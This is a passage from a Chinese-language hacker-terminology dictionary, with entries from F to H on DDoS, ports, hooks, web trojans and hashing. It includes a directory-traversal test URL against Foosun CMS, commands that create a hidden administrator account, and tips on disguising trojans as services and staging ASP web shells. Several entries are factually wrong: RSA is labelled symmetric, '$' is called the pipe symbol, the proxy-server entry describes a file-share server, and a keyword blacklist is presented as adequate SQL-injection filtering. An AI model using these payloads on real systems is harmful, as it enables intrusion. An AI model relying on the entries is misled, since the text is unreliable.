假如你希望给予本地用户 xl 完全控制 h:\xl 文件夹及子文件夹中所有文件的访问权限，只需要键入命令 `cacls h:\xl /t /e /c /g xl:f`。

这里的“/t”表示修改文件夹及子文件夹中所有文件的 ACL，“/e”表示仅做编辑工作而不替换，“/c”表示在出现拒绝访问错误时继续，而“/g xl:f”表示给予本地用户 xl 以完全控制的权限。这里的“f”代表完全控制，如果只是希望给予读取权限，那么应当是“r”。

## 明码加密解密

非明码是相对于明码而言的，所谓明码是指能用譬如 WinHex 等工具从内存中找出注册信息来，而非明码则找不出来，这时只能靠爆破或者弄清楚程序的注册计算方法。

### 分区（操作系统及其相关）

分区可以看成是物理磁盘上的逻辑单元，它把硬盘逻辑上分成几个分隔单元，以方便文件管理。分区又分主分区和扩展分区，主分区是标记为由操作系统使用的一部分物理磁盘，一个磁盘最多可有 4 个主分区（如果有 1 个扩展分区，则最多有 3 个主分区）。扩展分区是从硬盘的可用空间上创建的分区，而且可将其再划分为逻辑驱动器。创建扩展分区不需要有主分区。

### 分布式攻击（攻击方法与行为）

DDoS 全称为 Distributed Denial of Service，中文翻译为分布式拒绝服务攻击，俗称洪水攻击。“分布”二字意味着攻击端是分散且大量的，这也是 DDoS 攻击的典型特点。

DDoS 攻击手段是在传统的 DoS 攻击基础之上产生的一类攻击方式。单一的 DoS 攻击一般是采用一对一方式，当攻击目标 CPU 速度低、内存小或者网络带宽小等各项性能指标不高时，它的效果是明显的。随着计算机与网络技术的发展，计算机的处理能力迅速增长，内存大大增加，同时也出现了千兆级别的网络，这使得 DoS 攻击的困难程度加大了。因为目标对恶意攻击包的“消化能力”加强了不少，例如攻击端每秒钟可发送 3000 个攻击数据包，但对方主机与网络带宽每秒可处理 10000 个攻击包，这样一来，攻击就不会产生什么效果。

而 DDoS 的原理是让大量主机同时统一对单一目标进行 DoS。用形象的比喻说，DoS 称之为单挑，DDoS 则为群殴，且是一群打一人。DDoS 的原理是给大量主机种植可控制的 DDoS 程序，这些被植入程序的主机称为傀儡机，由攻击者统一通过广播命令进行控制。而这样的 DDoS 程序一般都通过网页木马的形式植入，许多网民在上网时无意浏览了某些页面后就成了攻击者的傀儡机，自己却浑然不觉。大量的傀儡机也就组成了所谓的僵尸网络。一个比较完善的 DDoS 攻击体系分成四大部分，如图 F-2，包括：攻击者所在机、控制傀儡机、傀儡机、受害者。

先来看一下最重要的控制傀儡机和傀儡机，它们分别用作控制和实际发起攻击。请注意控制傀儡机与攻击机的区别：对受害者来说，DDoS 的实际攻击包是从攻击傀儡机上发出的，控制傀儡机只发布命令而不参与实际攻击。对控制傀儡机和傀儡机，攻击者都有完全或部分控制权，并把相应的 DDoS 程序上传到这些平台上。这些程序与正常程序一样运行并等待黑客的指令，通常它还会利用各种手段隐藏自己不被别人发现。

在平时，这些傀儡机并没有什么异常，一旦黑客连接到它们进行控制并发出指令时，攻击傀儡机就成为入侵者去发起攻击。通过控制傀儡机控制攻击傀儡机的优点在于可以很好地隐藏自己，加大追查难度。从攻击者的角度来说，肯定不愿意被抓住，而攻击者使用的傀儡机越多，提供给受害者的分析依据也就越多。

### 风讯（脚本）

风讯网站管理系统是现在比较流行的、和动易齐名的一个在线编辑系统，它最出名的是采集系统，也是一个很好的整站程序。其出现过很多漏洞，比较典型的是 SelectPic.asp 过滤不严漏洞。由于风讯网站管理系统的 users/Editor/SelectPic.asp 文件过滤不严，造成用户可以浏览整站文件。测试方法：`users/Editor/SelectPic.asp?LimitUpFileFlag=&CurrPath=/Files/../../bbs/data`

### 风云防火墙（应用程序）

一款国产防火墙软件，在简约人性化方面考虑比较周详，可以抵抗已知类型的网络扫描及攻击，同时又为高级用户提供了丰富的细节监测功能。如图 F-3，为风云防火墙界面。

### 服务（操作系统及其相关）

服务即 Service，这个词在 Windows 里出现得相当频繁，这里的服务是指系统服务，一般由 SCM（Service Control Manager，服务控制管理员）所执行和控制的程序，如图 F-4。

这种程序通常称为 Windows Services，因源起 Windows NT，因此之前称为 NT Services，而且只有“NT 血缘”的 Windows 才支持此类型的程序（Windows 2000/XP/2003 都支持，但 Windows 95/98/Me 不支持）。

这些程序通常用来完成一些 Windows 基本功能，如 Windows 自带的防火墙（XP 以上系统）与 NetBIOS 都必须通过服务来实现。系统服务可在任何使用者登录系统前、在开机时自动运行；就算开机后没有使用者登录系统，也可以自动执行系统服务。

- 自动（Automatic）：系统服务会随电脑启动而自动执行。
- 手动（Manual）：系统服务不会随电脑启动而自动执行，但可由使用者或其它程序启动执行。
- 已停用（Disabled）：系统服务无法被启动。

每个系统服务也都有其登录身份，而不同的身份可能会有不同的执行权。此外，系统服务也会互相依存。例如，假设 A 和 B 相互依存，若停用 A，那么 B 也无法启动。如果系统服务的登录身份权限不足，或者停用了执行其它系统服务需要的系统服务，都会影响系统服务的正常执行。

#### HACK TIPS

服务与利用注册表启动的程序不同，它要稳定很多，所以许多木马与后门也可能伪装，甚至替换系统服务，这样就可顺利随着系统启动而启动。

### 服务端（黑客技术基础）

想要清楚服务端就要先理解 C/S 模式。C/S（Client/Server，客户机/服务器）模式又称 C/S 结构，是软件系统体系结构的一种。C/S 模式简单地讲，就是基于企业内部网络的应用系统。C/S 模式应用系统最大的好处是不依赖企业外网环境，即无论企业是否能上网，都不影响应用。

典型的 C/S 模式应用系统网络结构如图 F-5。服务端就是图中的 Server 服务器，运行专门的服务程序为客户机提供各种服务（FTP、数据库等）。而这种模式在木马上同样得到了很好的体现，大多数木马都是依据 C/S 模式编写成的。

### 服务器（黑客技术基础）

从广义上讲，服务器是指网络中能对其它机器提供某些服务的计算机系统（如果一个 PC 对外提供 FTP 服务，也可以叫服务器）。从狭义上讲，因为服务器需要处理大量访问与信息，所以其也可专指某些高性能计算机，能通过网络对外提供服务。相对于普通 PC 来说，服务器在稳定性、安全性、整机性能等方面都要更高，因此其 CPU、芯片组、内存、磁盘系统、网络等硬件和普通 PC 有所不同。

其实，服务器与个人电脑的功能相类似，均是帮助人类处理信息的工具，只是二者定位不同。个人电脑（Personal Computer，PC）是为满足个人的多功能需要而设计的，而服务器是为满足众多用户同时在其上处理数据而设计的。

服务器可用来搭建网页服务（我们平常上网看到的网页页面数据就是存储在服务器上供人访问的）、邮件服务（我们发的电子邮件都需经过服务器的处理、发送与接收）、文件共享。

## F 黑客词典

### 父目录

上层目录的俗称。比如 WEB 文件夹下有个 CODY 文件夹，对于 CODY 文件夹来说，WEB 文件夹就是父目录。

### 附加码

许多程序员为了避免黑客使用字典工具（如【溯雪】）或其它方法来【暴力破解】密码，应用了附加码技术。所谓附加码，其实是专门应对在线破解登录密码的一种安全保卫技术，它是由服务器随机产生的、由数字和字母组成的一串字符，这些字符也是原密码的一部分。附加码对防范穷举法破解密码很有效！因为每次进入密码登录界面，界面中的附加码都会发生变化，这样穷举法就无法试出密码了。虽然附加码在服务器中随机产生，并且自动传送到客户机上，但利用专业工具完全可以将传输中的附加码截获下来，这样附加码的安全防范作用就失效了。为了增强附加码的安全防卫能力，一般还应采取如下措施：

- 1、改变附加码的传输方式

由于附加码是以文本方式从服务器中传输到客户机上的，而文本内容是非常容易在传输过程中被截获的，一旦攻击者截获到附加码后，只要将附加码中的字符内容记忆下来，并将它们填充在密码登录界面中就可以了。为此，我们不妨将附加码的传输方式修改为图像传输，也就是说将附加码通过图像的方式传输到客户端计算机中，即使有人将图像内容捕获到，还必须使用其它方法将图片信息转换为文本信息，而实现这一过程，往往难度比较大。这样，也就增强了附加码的安全性。

- 2、尽量启用账号锁定功能

尽管附加码在每次访问密码登录页面时都不会相同，但为了确保万无一失，我们还是尽可能启用系统中的账号锁定功能，让攻击者在尝试破解密码达到一定次数时，自动将指定账号暂时锁定起来，以便让黑客无法继续进行密码破解试验。

- 3、在附加码上增加干扰内容

为了将黑客破解密码的成功率降低到最小程度，我们还可以在附加码上增加一些干扰内容，以便让黑客在截获到附加码后，无法识别出附加码的具体内容，这些干扰信息包括将附加码设计成字符大小不一，而且每次都不相同，字符颜色随机生成，同时随机倾斜角度，字符位置也不相同等。

### 服务器返回值

即 IIS 的错误代码。当 IIS 接收到错误的请求时会返回特定错误代码表示该错误，常见的有如下几种：

- 400——无法解析此请求；
- 403——禁止访问，访问被拒绝；
- 404——找不到文件或目录；
- 405——用于访问该页的 HTTP 动作未被许可；
- 406——客户端浏览器不接受所请求页面的 MIME 类型；
- 407——Web 服务器需要初始的代理验证；
- 410——文件已删除；
- 412——客户端设置的前提条件在 Web 服务器上评估时失败；
- 414——请求 URL 太大，因此 Web 服务器不接受该 URL；
- 500——服务器内部错误；
- 501——标题值指定的配置没有执行；
- 502——Web 服务器作为网关或代理服务器时收到无效响应。

许多 SQL 注入工具也是根据这个返回值判断注入情况的。

### G

## 高危端口  安全技术

常指容易遭到攻击并且容易出现漏洞的【端口】，下面给出常见高危端口的介绍及关闭方法：

- 80 端口：80 端口是为 HTTP 协议开放的，这是互联网使用最多的协议之一，主要用于在 Web 服务上通过 Internet 信息服务的管理单元提供 Web 连接和管理。
- 135 端口：135 端口主要用于使用 RPC（Remote Procedure Call，远程过程调用）协议并提供 DCOM 服务。通过 RPC 可以保证在一台计算机上运行的程序能顺利执行远程计算机上的代码；使用 DCOM 可以直接进行通信，包括了 HTTP 协议在内的多种网络传输协议。【冲击波蠕虫】正是利用的这个端口。
- 139 端口：139 端口是为“NetBIOS 会话服务”提供的，主要提供 Windows 文件和打印机共享以及 Unix 中的 Samba 服务，也是 IPC 协议所使用的端口。SMB 服务是实现会话服务时所使用的端口，IPC 也可使用这个端口，即如果 139 与 445 端口都没有开放，就无法与目标主机进行 IPC 连接。
- 1433 端口：SQL Server 所使用的远程连接管理端口，如果要开放此端口，切记设置一个强健的密码并做好权限设置，删除不必要的扩展存储。
- 3306 端口：MySQL 所使用的远程连接与管理端口，如果要开放此端口，切记设置一个强健的密码并做好系统各目录的权限设置（详情请见《黑客术语图文辞典英文词汇版》中的“3306 端口”与“MySQL”）。
- 3389 端口：3389 是 Terminal Service（终端服务）所使用的端口，是在 Windows NT 中最先使用的一种终端，在 Win2K 的 Professional 版本中不可以安装，只有在 Server 或以上版本才能安装这个服务，其服务端口为 3389。详情见“终端服务”。

**关闭 139 端口：**进入“本地连接”状态中的 Internet 协议（TCP/IP）属性，再在“高级 TCP/IP 设置”对话框中选择“WINS”选项卡，“禁用 TCP/IP 上的 NetBIOS”，如图 G-1。

**关闭 445 端口：**在“运行”中输入“regedit”，进入注册表，在注册表中找注册表项“HKEY_LOCAL_MACHINE\System\ControlSet\Services\NetBT\Parameters”。选择“Parameters”项，右键单击，选择“新建”→“DWORD 值”，将 DWORD 值命名为“SMBDeviceEnabled”，并修改“SMBDeviceEnabled”值。在出现的“编辑 DWORD 值”对话框中，在“数值数据”下输入“0”，单击“确定”按钮，完成设置。这样就关闭了 SMB 协议，也就关闭了 445 端口。

**关闭其它指定端口：**第一种是安装【防火墙】或使用 Windows 自带防火墙；第二种是使用 **TCP/IP 筛选**；第三种是使用 **IP 组策略**。

## 格式化盘  操作系统及其相关

如果把新买来的硬盘比喻成白纸，我们想要把它变成写文章的稿纸，就要规定格子的范围。而分区就好像给硬盘规定可以写字的范围，格式化就好比给它画出写每个字的格子。也就是说，格式化就是把一张空白的盘划分成一个个小区域并编号，供计算机储存、读取数据。没有这个工作的话，计算机就不知道在哪写，从哪读。

**硬盘必须先经过分区才能使用**，经过分区之后，下一个步骤就是对硬盘进行格式化（FORMAT），硬盘都必须格式化才能存取数据。格式化是在磁盘中建立磁道和扇区，磁道和扇区建立好之后，电脑才能使用磁盘来储存数据。在 Windows 中，右键点击盘符就可以看到“格式化”选项，打开后就可进行格式化，如图 G-2。

## 个人防火墙  安全技术

指专为个人用户所设计的防火墙，一般为应用程序，功能简单且容易设置，同时消耗资源少，代表作品有【天网防火墙】与【风云防火墙】。

## 根目录  操作系统及其相关

根目录指逻辑驱动器的最上一级目录，它是相对子目录来说的。打开“我的电脑”，双击 C 盘就进入 C 盘根目录，双击 D 盘就进入 D 盘根目录，以此类推。而网站的根目录是指 WEB 服务器所指定的主目录。

## 工作站  黑客技术基础

工作站，就是在某网络中用来充当客户端的机器。在 C/S 模式中充当“C”，也就是 Client 的角色。工作站根据软、硬件平台的不同，一般分为基于 RISC（精简指令系统）架构的 UNIX 系统工作站和基于 Windows、Intel 的 PC 工作站。

UNIX 工作站是种高性能的专业工作站，具有强大的处理器（以前多采用 RISC 芯片）和优化的内存、I/O（输入/输出）、图形子系统，一般使用专有的处理器（Alpha、MIPS、Power 等）、内存以及图形卡等硬件系统，并配置专有的 UNIX 操作系统及针对特定硬件平台的应用软件，彼此互不兼容。

PC 工作站则是基于高性能的 X86 处理器之上，使用稳定的 Windows NT 及 Windows 2000、Windows XP 等操作系统，采用符合专业图形标准（OpenGL）的图形系统，再加上高性能的存储、I/O（输入/输出）、网络等子系统，来满足专业软件运行的要求。以 NT、Windows 2000、XP 为架构的工作站采用的是标准、开放的系统平台，能最大程度地降低拥有成本。另外，根据体积和便携性，工作站还可分为台式工作站和移动工作站。

- 台式工作站类似于普通台式电脑，体积较大，没有便携性可言，但性能强劲，适合专业用户使用。
- 移动工作站其实就是一台高性能的笔记本电脑，但其硬件配置和整体性能又比普通笔记本电脑高一个档次。

## 对称加密算法  安全技术

即 RSA 加密算法。这种算法 1978 年就出现了，是第一个能同时用于加密和数字签名的算法，也易于理解和操作。算法的名字以发明者的名字命名：Ron Rivest、Adi Shamir 和 Leonard Adleman。RSA 是被研究得最广泛的公钥算法，从提出到现在已近二十年，经历了各种攻击的考验，逐渐为人们所接受，普遍认为它是目前最优秀的公钥方案之一。

RSA 的安全性依赖于大数因子分解，但并没有从理论上证明破解 RSA 的难度与大数分解难度等价，即 RSA 的重大缺陷是无法从理论上把握它的保密性能如何。

- RSA 的缺点主要有：
- 1. 产生密钥很麻烦，受到素数产生技术的限制，因而难以做到一次一密。
- 2. 分组长度太大。为保证安全性，n 至少也要 600 bits 以上，使运算代价很高，而且速度较慢，与对称密码算法慢几个数量级；且随着大数分解技术的发展，这个长度还在增加，不利于数据格式的标准化。目前 SET（Secure Electronic Transaction）协议中要求 CA 采用 2048 比特长的密钥，其它实体使用 1024 比特的密钥。

## 公网  黑客技术基础

也叫【外网】，是与内网相对应的名词，即直接连接到 Internet 的网络。在公网上，我们可以通过主机的 IP 直接访问相应的主机，而在【内网】的用户因为没有公网 IP，所以不能被直接访问（见“内网”）。

直接连接到公网的主机会有公网 IP，大部分网站都具有公网 IP，这样才能让用户更方便地访问到其服务器上。如果把 Internet 比作一座城市，那么公网就是指城市的主干道，而内网是城市里各个小区，我们要访问公网主机只需沿着主干道即可，而访问内网的主机则需进入小区的大门才能找到。

## 公钥  安全技术

是非对称算法的重要组成部分，即公开的密钥（见“密钥”）。需要注意的是：

- 1. 公钥和私钥成对出现；
- 2. 公开的密钥叫公钥，只有自己知道的叫私钥；
- 3. 用公钥加密的数据只有对应的私钥可以解密；
- 4. 用私钥加密的数据只有对应的公钥可以解密；
- 5. 如果可以用公钥解密，则必然是对应的私钥加的密；
- 6. 如果可以用私钥解密，则必然是对应的公钥加的密。

总结一下：1、用公钥加密数据，用私钥来解密数据；2、用私钥加密数据，用公钥来验证数字签名。详细请见“【数字签名】”。

## 代理服务器  黑客技术基础

拥有共享资源的服务器，相应的服务有 Windows 下的 NetBIOS 与 Unix 的 Samba。

## HACK TIPS:

一个企业或学校的网络里，共享服务器极为重要也极为危险，因为它向外提供文件传输服务，如果安全措施不当就很可能导致服务器沦陷。共享服务器对外提供的文件传输服务无外乎三种：一种是通过 HTTP，从网页上直接下载；另一种是 FTP；最后一种是通过 SMB 协议进行共享。其危险程度的高低为：HTTP → FTP → SMB，所以尽量用 HTTP 协议提供文件共享服务。

## 钩子  程序语言与开发，安全技术

钩子（Hook），是 Windows 消息处理机制的一个平台，钩子机制允许应用程序截获处理 Window 消息或特定事件。钩子实际上是一个处理消息的程序段，通过系统调用，把它挂入系统。每当特定消息发出，在没有到达目的窗口前，钩子程序就先捕获该消息，即钩子函数先得到控制权。这时钩子函数即可加工处理（改变）该消息，也可不作处理而继续传递该消息，还可强制结束消息的传递。

钩子的类型：

- 1、键盘钩子和低级键盘钩子可以监视各种键盘消息；
- 2、鼠标钩子和低级鼠标钩子可以监视各种鼠标消息；
- 3、外壳钩子可以监视各种 Shell 事件消息，比如启动和关闭应用程序；
- 4、日志钩子可以记录从系统消息队列中取出的各种事件消息；
- 5、窗口过程钩子监视所有从系统消息队列发往目标窗口的消息。

## HACK TIPS:

木马与杀毒软件都可以利用钩子来监视系统，只不过目的不同罢了。杀毒软件用钩子来监视系统的各种行为，而木马可用钩子来隐藏【进程】、注册表的【键值】、文件等。其基本思路是挂靠特定的 API，如当木马监视到用户打开任务管理器时，就会自动将进程隐藏，不过这种技术无法逃脱【冰刃】的法眼。

## 挂马  攻击方法与行为

指在正常网页中插入利用浏览器漏洞而执行木马的页面行为，这种行为会让许多无辜网民在浑然不觉下中木马，所以非常令人厌恶。导致挂马的动机很多，一部分是盗取 QQ 或者网络游戏密码，挂马者可通过卖含有 QQ 或者网络游戏密码的信件（也就是俗称的“信封”）获取利润；还有一部分是为了得到更多的肉鸡，组成大型的【僵尸网络】，对特定目标发起 DDoS 攻击。总之，挂马都是为了不法的目的而做的。

## 关键字  特定名称

关键字的英文写法是 Keyword，在搜索引擎行业，关键字就是希望访问者了解的产品、服务或者公司等内容名称的用语。譬如，有个客户想在网上买鲜花，他在搜索框中输入关键字“鲜花”，就可轻松找到相关信息。简单地说，关键字就是用户在使用搜索引擎时输入的、能最大程度概括用户所要查找的信息内容的字或者词，是信息的概括化和集中化，比如上面例子中的“鲜花”。

在搜索引擎优化（SEO）行业谈到的关键字，往往是指网页的核心和主要内容。对于搜索引擎来说，你的网页主要是讲哪方面的内容，那个方面就可归结出一个（更多时候会是多个）关键字。为了更好地让自己的网页有更高的排名，就必须掌握关键字的概念与使用技巧。

### 管道符号

即符号“$”，在访问共享盘符时需要加上这个符号。

### 管理权限

在操作系统、应用软件、整站程序中都有管理权限这个概念，具体是指用户对其中资源的访问与命令使用的许可状态。一般的操作系统中，有普通用户与管理员，普通用户只拥有一部分管理权限，而管理员则拥有对计算机的完全管理权限。应用软件，如 Serv-U 中，也是分用户级别的，不同用户拥有不同的管理权限。【整站程序】及论坛更是如此，管理员、超级版主、版主等都拥有不同的管理权限。

### 管理员权限

在操作系统中，一般分为普通用户与管理员。普通用户只有一部分管理权限，而管理员拥有对计算机的完全管理权限，即管理员权限。拥有管理员权限的用户都可创建其他普通用户及管理员，一般也都能访问系统所有的文件夹与文件，并且对文件或文件夹能进行所有操作（当然，受系统保护与特殊设置的文件除外，如 Windows 系统中的 SAM 文件，管理员就不能直接访问）。

在 Windows 中输入命令 `net user 用户名` 可判断当前操作者是否拥有管理员权限，如图 G-3。

图 G-3 中所标记出来的就是 Administrator 用户所属的组，“Administrators”代表着管理员组，组里的成员也拥有管理员权限。值得注意的是，Windows 系统中允许有多个管理员，而 Linux 却只允许有一个拥有管理员权限的用户，也就是 ROOT。从这一点也可以看出，Linux 要比 Windows 的安全性更好。

Windows 下添加管理员的命令如下：

```bash
net user cody est /add
net localgroup administrators cody /add
```

这样就创建了一个名为 CODY、密码为 est 的用户，并且将其加入了 administrators 用户组。

在 Linux 下使用 `whoami` 可以知道用户的权限情况：

```bash
# whoami
root
# su Cody
$ whoami
Cody
```

### 管理员

拥有管理员权限的用户就为管理员。

### 光盘镜像

光盘镜像，也称作“CD Mirror”，其技术采用类似于“刻录机刻录光盘”的方式，把整张光盘数据光轨完整地刻录到硬盘上。技术上与在 Windows 系统中采用的“拷贝光盘-Copy”方式完全不同，也不同于市面上的虚拟光驱软件。

光盘镜像是根据 ISO 9660 有关 CD-ROM 文件系统标准列出 CD-ROM 上的文件。早期的光盘刻录中，因为主机的速度无法满足需要，所以只能在刻录前将数据预先转换成使用 ISO-9660 格式的图像文件，然后再进行刻录。现在制作 ISO 文件一般用于虚拟光盘，比如放 CD、玩游戏。用硬盘来虚拟光盘，速度快，而且延长光驱寿命。典型的制作软件有 UltraISO、Nero 等。

UltraISO 是款功能强大而又方便实用的光盘映像文件编辑／制作／转换工具，如图 G-4，它可直接编辑已有光盘映像文件，也可从 CD-ROM 直接拷贝或者将硬盘上的文件制作成 ISO 文件，并能制作启动光盘。方便的双窗口操作和稳定的核心使你可随心所欲地制作／编辑几乎所有格式的光盘映像文件，并转换成标准 ISO 格式保存。

## 广播  黑客技术基础

网络技术里的广播是指像电视或无线电广播那样，一经发送出去，就可对联网的所有计算机进行通信。当然，这里指的所有计算机并不是指可到达全世界的计算机，否则世界上的网络早被挤爆了。广播的方式只限于在被分开的特定网络中进行通信，当超过播送范围时，其它网络就会阻止这个信息。

## HACK TIPS:

广播这种通信形式虽然方便，但处理得不好就会造成严重的安全问题，ARP 欺骗就是一个很好的例子。

## 广播命令  黑客技术基础

广播命令抽象地讲就是一个集群控制平台，用户可通过一次命令同时对多台远程计算机进行统一操作，这跟实际生活中的情景很相似。譬如学校里，校长广播要全校师生集合，所有的老师和学生都收到了命令并且会去集合。

广播命令在许多领域都有应用，比如机房或网吧的控制端，可以通过广播命令统一控制所有电脑，而木马也可通过这样的形式控制所有肉鸡执行统一的行动，比如 DDoS。

## 广域网  黑客技术基础

广域网（Wide Area Network，简称 WAN）是种跨地区的通信网络，通常包含一个国家或地区。广域网一般由两个或多个局域网组成，计算机常常使用电信运营商提供的设备作为信息传输平台，例如通过公用网（如电话网）连接到广域网，也可以通过专线或卫星连接。国际互联网是目前最大的广域网。

当多个局域网连接起来时，就会进入广域网的范围内了。或者我们可以这样看，广域网等于是把局域网连接起来成为更大的网络。一个国家应该算是一个更大的广域网，而超过这个范围，将许多国家级的广域网结合在一起，就形成了目前遍布全球的因特网了。

## 过滤  安全技术

指将特定信息替换或删除的行为，一般在防止 SQL 注入方面应用很广，许多脚本程序在进行 SQL 查询或其它操作时会进行过滤，防止恶意用户将 SQL 语句插入其提交数据中。

## 过滤语句  安全技术

一般是指程序中进行 SQL 查询与其它操作时将提交数据进行过滤的语句。对于数字型的查询，典型的 ASP 过滤语句为：

```vb
dim nid
nid=Request("id")
If Not (isNumeric(nid)) Then
 Response.Write "请不要输入非法参数！"
 Response.End
End If
```

也就是利用 isNumeric 函数检查其是否为数字，如果不是则阻止其传递。对于字符型，一般可以用 trim 先将空格去掉，再用 replace 函数将指定字符替换，如单引号、分号等。代码如下：

```vb
rString=trim(rString)
rString=replace(rString,"'","''")
rString=replace(rString,",",",;")
```

当然，也可以写一个完善的过滤函数，代码如下：

```vb
Function ChkInvalidWord(Words)
Const InvaildWords="select|update|delete|insert|@|--|union|'|;."
ChkInvalidWord=True
InvaildWord=Split(InvaildWords, "|")
For i=LBound(InvaildWord) To UBound(InvaildWord)
 If InStr(Words,InvaildWord(i))>0 Then
  ChkInvalidWord=True
  Exit Function
 End If
Next
ChkInvalidWord=False
End Function
```

使用时，只需将提交的数据用此函数检查即可，代码如下：

```vb
if ChkInvalidWord(Words)=true then
 response.write "请不要输入非法字符，谢谢合作！"
 response.end
end if
```## H

## 哈希函数 安全技术

即 HASH 函数，又称散列函数。哈希函数（有时也称杂凑函数或杂凑算法）就是把任意长的输入消息串变换成固定长的输出串的一种函数。这个输出串称为该消息的杂凑值，一般用于产生消息摘要、【密钥】加密等。

一个安全的哈希函数应该至少满足以下几个条件：

- 1. 输入长度是任意的；
- 2. 输出长度是固定的，根据目前的计算技术应至少取 128 bits 长，以便抵抗生日攻击；
- 3. 对每一个给定的输入，计算输出杂凑值是很容易的。

常见哈希函数有以下几种：

- 1、MD4（RFC 1320）

是 MIT 的 Ronald L. Rivest 在 1990 年设计的，MD 是 Message Digest 的缩写。这种函数适用在 32 位字长的处理器上用高速软件实现——它是基于 32 位操作数的位操作来实现的。

- 2、MD5（Message Digest Algorithm 5）

是 RSA 数据安全公司开发的一种单向散列算法，已经被广泛使用，可以用来把不同长度的数据块进行暗码运算成一个 128 位的数值。

- 3、SHA（Secure Hash Algorithm）

这是一种较新的散列算法，可以对任意长度的数据运算生成一个 160 位的数值。

- 4、MAC（Message Authentication Code）

消息认证代码，是一种使用密钥的单向函数，可以用它们在系统上或用户之间认证文件或消息。HMAC（用于消息认证的密钥散列法）就是这种函数的一个例子。

- 5、CRC（Cyclic Redundancy Check）

即循环冗余校验码。CRC 校验由于实现简单，检错能力强，被广泛使用在各种数据校验应用中。其占用系统资源少，用软硬件均能实现，是进行数据传输差错检测的一种很好手段。

那么这些哈希函数到底有什么用呢？哈希函数在信息安全方面的应用主要体现在以下几个方面：

- 1. 数据加密

许多网站与论坛，甚至银行系统都是用哈希函数来加密用户密码的，这样的密码无法被反向破译，所以十分安全。

- 2. 文件校验

我们比较熟悉的校验算法有奇偶校验和 CRC 校验，这两种校验并没有抗数据篡改的能力，它们一定程度上能检测并纠正数据传输中的信道误码，但却不能防止对数据的恶意破坏。

MD5 Hash 算法的“数字指纹”特性，使它成为目前应用最广泛的一种文件完整性校验和（Checksum）算法，不少 Unix 系统都有提供计算 md5 checksum 的命令。

- 3. 数字签名

Hash 算法也是现代密码体系中的一个重要组成部分。由于非对称算法的运算速度较慢，所以在数字签名协议中，单向散列函数扮演了一个重要的角色。对 Hash 值，又称“数字摘要”，在统计上可以认为其与对文件本身进行数字签名是等效的，而且这样的协议还有其他的优点。

- 4. 鉴权协议

鉴权协议又被称作挑战/认证（Challenge/Response 响应机制）模式。这是在容易被【嗅探】的环境下，一种简单而安全的传输信息的方法。

## 海洋顶端网 ASP 木马 黑客工具

最初由 LCX 开发的一款国内著名的 ASP 木马，开始只有一个命令执行功能，后来逐渐完善，直到成为国内最流行、同时也是功能最强大的 ASP 木马之一，如图 H-1。以后出现的 ASP 木马多少也受其影响。



## HACK TIPS:

由于海洋顶端的功能强大，所以代码较多，体积较大，属于【大马】。很多时候由于入侵环境的限制，会由小马带大马的方式放置到远程主机上。详情请见【大马】词条。

## 【函数】程序语言与开发

通俗地讲，函数就是用来实现特定功能的代码集合。编程中所说的函数与数学里的函数有部分相似之处，数学中的函数可以根据不同的自变量返回不同的值，而编程中的函数也可以通过特定的参数返回不同的值，并可以实现特定的功能。

## 【黑洞】黑客工具

一款老牌的国产木马，其功能及界面与冰河很相似，也是典型的 C/S 模式主动连接型木马。在现在的网络环境下，实用价值已经不大。

